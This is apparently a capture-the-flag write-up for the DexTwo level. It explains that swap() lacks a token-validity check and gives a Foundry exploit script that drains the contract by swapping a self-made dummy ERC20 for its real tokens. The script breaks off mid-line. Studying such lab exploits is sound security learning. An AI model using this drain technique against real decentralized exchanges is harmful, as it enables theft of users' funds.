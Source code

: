 ```solidity
    super._approve(owner, spender, amount);
  }
}
```

**Goal:**

You need to drain all balances of token1 and token2 from the DexTwo contract to succeed in this level.

**Explanation:**

1. Observe that the `DexTwo` modifies the `swap()` function from the `Dex`. It removed the check of valid tokens.
2. So, we are now allowed to input any token addresses to the swap() function.
3. I created two Dummy Tokens and transferred 100 tokens each of the two tokens to the `Dex` address.
4. I swapped my Dummy tokens with the `token1` and `token2` balances of the `Dex` contract.

**Level23Solution.s.sol**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "forge-std/console.sol";
import {DexTwo} from "../src/Level23.sol";
import "openzeppelin-contracts/contracts/token/ERC20/IERC20.sol";
import "openzeppelin-contracts/contracts/token/ERC20/ERC20.sol";

contract Level23Sol is Script {
    DexTwo public instance = DexTwo(0x9635173E4b119f8f3f459eAa61a75Ba75d759A63);

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

        address token1 = address(instance.token1());
        address token2 = address(instance.token2());

        Attack attack = new Attack();
        attack.exploit();

        vm.stopBroadcast();
    }
}

contract Attack {
    DexTwo public instance = DexTwo(0x9635173E4b119f8f3f459eAa61a75Ba75d759A63);

    address token1 = address(instance.token1());
    address token2 = address(instance.token2());

    Dummy dummyToken1;

    constructor() {
        dummyToken1 = new Dummy();
    }

    function exploit() public {
        dummyToken1.transfer(address(instance), 100); //transfering 100 tokens to the Dex contract

        dummyToken1.approve(address(instance), 1000);

        instance.swap(address(dummyToken1), token2, 100);
        console.log(
```